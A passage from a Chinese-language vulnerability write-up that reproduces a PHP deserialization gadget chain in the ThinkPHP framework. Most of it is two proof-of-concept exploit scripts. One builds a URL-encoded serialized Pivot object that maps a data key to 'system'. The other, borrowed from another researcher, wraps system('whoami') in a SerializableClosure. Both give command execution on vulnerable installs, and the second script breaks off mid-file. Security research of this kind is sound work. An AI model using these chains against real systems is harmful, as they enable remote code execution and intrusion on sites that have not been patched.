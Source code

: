 3. POC，因为Model和Attribute都不能实例化，所以我们要随便挑一个子类来当做实例化的跳板。
   在写POC的时候发现，Attribute等都是复用结构，所以只要被Model use，Model的序列化就会包括这些复用类，所以Attribute的变量在反序列化时是可以被Model控制的。
```php
<?php
namespace think;
abstract class Model
{
    private $lazySave = true;
    private $exists = true;
    private $force = true;
    private $data = ["key" => "whoami"];
    private $withAttr = ['key' => 'system'];


    // private $visible = ['key' => 1];//可以没有
    // private $withEvent = null;//可以没有
    // private $strict = true;//可以没有

    public function __construct($obj)
    {       
        $this->table=$obj;
    }
}
namespace think\model;
use think\Model;
class Pivot extends Model{
    function __construct($obj){
        parent::__construct($obj);
    }
}
$obj = new pivot(null);
echo urlencode(serialize(new Pivot($obj)));
?>
```
#### 0x03其他POC挖坑
没有独立复现出来有点遗憾，这里找到了另一个师傅的POC，思路有点不一样，打算下次自己复现一下。
```php
<?php
namespace think;
require __DIR__ . '/vendor/autoload.php';
use Opis\Closure\SerializableClosure;
abstract class Model{
    private $lazySave ;
    private $exists ;
    private $suffix;
    protected $append = [];
    private $data = [];
    protected $visible = [];
    private $withAttr = [];
    function __construct($aaa){
    	//withAttr中的键值要与data中的键值相等
        if ($aaa == null){
            $this->data = ["huha"=>''];
            $this->withAttr = ['huha'=> new SerializableClosure(function(){system('whoami');}) ];
        }else{
            $this->data = [1];
            $this->lazySave =true;
            $this->exists = true;
            $this->suffix = $aaa;
        }

    }
}
namespace think\model;
```
